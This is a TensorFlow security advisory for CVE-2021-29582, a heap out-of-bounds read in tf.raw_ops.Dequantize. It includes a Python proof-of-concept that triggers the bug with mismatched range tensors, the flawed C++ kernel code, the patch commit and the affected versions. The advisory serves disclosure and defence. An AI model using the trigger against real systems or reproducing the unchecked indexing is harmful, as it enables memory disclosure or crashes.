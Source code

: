 ## TFSA-2021-070: Heap OOB read in `tf.raw_ops.Dequantize`

### CVE Number
CVE-2021-29582

### Impact
Due to lack of validation in `tf.raw_ops.Dequantize`, an attacker can
trigger a read from outside of bounds of heap allocated data:

```python
import tensorflow as tf

input_tensor=tf.constant(
    [75, 75, 75, 75, -6, -9, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10], shape=[5, 10], dtype=tf.int32)
input_tensor=tf.cast(input_tensor, dtype=tf.quint8)
min_range = tf.constant([-10], shape=[1], dtype=tf.float32)
max_range = tf.constant([24, 758, 758, 758, 758], shape=[5], dtype=tf.float32)

tf.raw_ops.Dequantize(
    input=input_tensor,
    min_range=min_range,
    max_range=max_range,
    mode='SCALED',
    narrow_range=True,
    axis=0,
    dtype=tf.dtypes.float32)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/26003593aa94b1742f34dc22ce88a1e17776a67d/tensorflow/core/kernels/dequantize_op.cc#L106-L131)
accesses the `min_range` and `max_range` tensors in parallel but fails to check
that they have the same shape:

```cc
if (num_slices == 1) {
  const float min_range = input_min_tensor.flat<float>()(0);
  const float max_range = input_max_tensor.flat<float>()(0);
  DequantizeTensor(ctx, input, min_range, max_range, &float_output);
} else {
  ...
  auto min_ranges = input_min_tensor.vec<float>();
  auto max_ranges = input_max_tensor.vec<float>();
  for (int i = 0; i < num_slices; ++i) {
    DequantizeSlice(ctx->eigen_device<Device>(), ctx,
                    input_tensor.template chip<1>(i), min_ranges(i),
                    max_ranges(i), output_tensor.template chip<1>(i));
    ...
  }
}
```

### Patches
We have patched the issue in GitHub commit
[5899741d0421391ca878da47907b1452f06aaf1b](https://github.com/tensorflow/tensorflow/commit/5899741d0421391ca878da47907b1452f06aaf1b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
